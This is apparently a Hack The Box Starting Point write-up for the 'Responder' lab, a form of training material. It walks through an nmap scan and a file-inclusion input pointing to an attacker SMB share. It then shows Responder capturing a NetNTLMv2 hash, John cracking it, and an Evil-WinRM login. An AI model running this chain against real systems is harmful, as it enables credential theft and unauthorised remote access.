 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** yvngdrac  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -sC -sV -Pn -p- 10.129.X.X
```

![nmap result](./writeup-images/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

Visited the site: **Unika**

![Unika site](./writeup-images/unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./writeup-images/string_input.png)

Tested for LFI using:

```http
\\10.10.14.X\share
```

![LFI string input](./writeup-images/lfi-string-input-result.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./writeup-images/responder-initiation.png)

Then configured the parameter to call our malicious SMB path:

![Setting page param](./writeup-images/setting-page-parameter.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./writeup-images/NetNTLMv-for-admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracked password: **badminton**

![Password cracked](./writeup-images/password_badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.X.X -u admin -p badminton
```

![Evil-WinRM shell](./writeup-images/Evil-Winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./writeup-images/dir-flag.png)  
![Flag content](./writeup-images/flag-founded.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI  
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM  
- Burp Suite  
- Browser

---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---

**🔗 Connect with me on LinkedIn & check more writeups:**  
[github.com/yourusername](https://github.com/yourusername)
